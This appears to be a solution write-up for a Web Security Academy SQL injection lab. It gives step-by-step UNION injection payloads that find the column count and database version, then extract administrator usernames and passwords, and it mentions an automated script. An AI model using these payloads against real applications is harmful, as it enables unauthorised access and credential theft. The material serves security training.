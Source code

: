 # SQL Injection Lab 09 - SQL injection UNION attack, retrieving data from other tables

## Manual Solution

1. Access the lab in Web Security Academy
2. Determine the number of columns for UNION attack
   - Test: `/filter?category=Gifts' ORDER BY 1--`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3--`
   - Result: Error (confirms 2 columns)

3. Determine the version of the database:
   - Test: `/filter?category=Gifts' UNION SELECT '1',version()--`
   - Result: So the version of the database is PostgreSQL 12.20

4. Username and password of the administrator:
   - Test: `/filter?category=Gifts' UNION SELECT username,password FROM users--`
   - Result: You'll see the username and password of the administrator.

5. Login to the administrator account

## Automated Solution

1. Download the script
2. Run the script with the following command: python sqli_lab_09.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)


